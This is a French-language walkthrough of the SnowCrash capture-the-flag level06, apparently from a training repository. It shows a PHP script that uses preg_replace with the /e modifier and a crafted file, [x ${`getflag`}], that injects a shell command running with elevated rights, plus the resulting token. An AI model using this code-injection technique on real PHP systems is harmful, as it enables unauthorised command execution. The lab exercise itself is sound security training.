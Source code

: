 En listant les fichiers, on trouve un binaire et un fichier PHP.
```bash
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Ici le fichier binaire n'est pas intéressant, est exécute juste le fichier PHP avec les droits de **flag06**.

```bash
level06@SnowCrash:~$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

On remarque beaucoup d'expressions régulières et l'utilisation de argv.

En faisant un peu de désobfuscation, on obtient un script plus lisible.
```php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

Le script prend en argument un fichier, qu'il va lire puis remplace certaines parties du texte par d'autres.

Ici ce qui nous intéresse est le modifier **e** du regex de la fonction x, qui permet d'exécuter du code.

Créons un fichier temporaire `/tmp/t` avec le contenu :
```bash
[x ${`getflag`}]
```

- `[x ...]` : délimite le motif reconnu par l'expression régulière.
- ``${`getflag`}`` : syntaxe PHP permettant d'exécuter `getflag` en shell via les backticks.

```bash
echo "[x \${\`getflag\`}]" > /tmp/t
```

Puis on exécute le binaire sur ce lien.
```bash
level06@SnowCrash:~$ ./level06 /tmp/t
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Une erreur est créée à l'exécution par l'interpréteur PHP vu qu'on a inséré un bout de code à l'arrache, mais on s'en fiche vu qu'on a le flag.

